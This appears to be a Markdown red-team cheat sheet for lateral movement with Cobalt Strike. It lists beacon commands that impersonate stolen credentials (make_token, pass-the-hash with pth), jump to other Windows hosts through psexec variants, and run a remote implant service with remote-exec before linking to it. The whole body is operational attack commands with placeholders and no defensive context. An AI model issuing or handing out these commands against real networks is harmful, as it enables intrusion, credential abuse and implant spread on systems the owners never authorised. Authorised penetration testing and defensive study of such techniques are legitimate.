 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - psexec
  - network-protocols
  - smb
  - cobalt-strike
  - windows
---
```

# Cobalt Strike

## 01 - `jump`

```
beacon> make_token <domain>\<username> <password>

beacon> pth <domain>\<username> <password>

beacon> jump <psexec | psexec_psh | psexec64> <listener> <IP>
```

## 02 - `remote-exec`

```
beacon> make_token <domain>\<username> <password>

beacon> pth <domain>\<username> <password>

beacon> remote-exec psexec <IP> C:\remote\path\to\implantsvc.exe

beacon> link <IP>
```